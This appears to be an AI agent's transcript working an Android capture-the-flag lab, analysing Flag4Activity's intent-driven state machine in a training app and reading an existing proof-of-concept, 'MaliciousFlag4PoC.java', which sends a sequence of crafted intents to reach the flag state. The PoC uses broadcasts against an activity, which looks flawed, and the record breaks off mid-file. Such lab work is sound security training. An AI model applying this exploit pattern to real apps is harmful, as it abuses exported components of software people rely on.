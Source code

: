 *   **4. Security Control Analysis:** There are no explicit security controls, sanitization, or validation on the `action` string. The state transitions are solely based on matching the exact string values. The activity is likely exported, as indicated by the existing `MaliciousFlag4PoC.java` which targets it.
*   **5. Vulnerability Hypothesis:** I hypothesize that by sending a sequence of intents with specific actions ("PREPARE_ACTION", "BUILD_ACTION", "GET_FLAG_ACTION"), followed by a final arbitrary intent, an external malicious application can force the `Flag4Activity` into the `GET_FLAG` state and then trigger the `success(this)` method, thereby revealing the flag. The existing `MaliciousFlag4PoC.java` already attempts this, but it seems to be missing the final trigger intent after `GET_FLAG_ACTION`.

The existing `MaliciousFlag4PoC.java` seems to be on the right track, but it might be missing the final trigger. I will read its content to confirm and then construct a complete PoC.

--- Tool Call ---
read_file_content({'file_path': 'MaliciousFlag4PoC.java'})

--- Tool Observation ---
package com.example.maliciousapp;

import android.app.Activity;
import android.content.ComponentName;
import android.content.Intent;
import android.os.Bundle;
import android.util.Log;
import android.widget.Toast;

public class MaliciousFlag4PoC extends Activity {

    private static final String TARGET_PACKAGE = "io.hextree.attacksurface";
    private static final String TARGET_ACTIVITY = "io.hextree.attacksurface.activities.Flag4Activity";

    private static final String PREPARE_ACTION = "PREPARE_ACTION";
    private static final String BUILD_ACTION = "BUILD_ACTION";
    private static final String GET_FLAG_ACTION = "GET_FLAG_ACTION";
    private static final String INIT_ACTION = "INIT_ACTION"; // For resetting the state if needed

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        Log.d("MaliciousFlag4PoC", "MaliciousFlag4PoC started.");

        // Optional: Reset state to INIT if it's not already, to ensure a clean run
        Intent resetIntent = new Intent(INIT_ACTION);
        resetIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));
        sendBroadcast(resetIntent);
        Log.d("MaliciousFlag4PoC", "Sent reset intent (INIT_ACTION).");


        // Step 1: Send PREPARE_ACTION
        Intent prepareIntent = new Intent(PREPARE_ACTION);
        prepareIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));
        sendBroadcast(prepareIntent);
        Log.d("MaliciousFlag4PoC", "Sent PREPARE_ACTION.");

        // Step 2: Send BUILD_ACTION
        Intent buildIntent = new Intent(BUILD_ACTION);
        buildIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));
        sendBroadcast(buildIntent);
        Log.d("MaliciousFlag4PoC", "Sent BUILD_ACTION.");
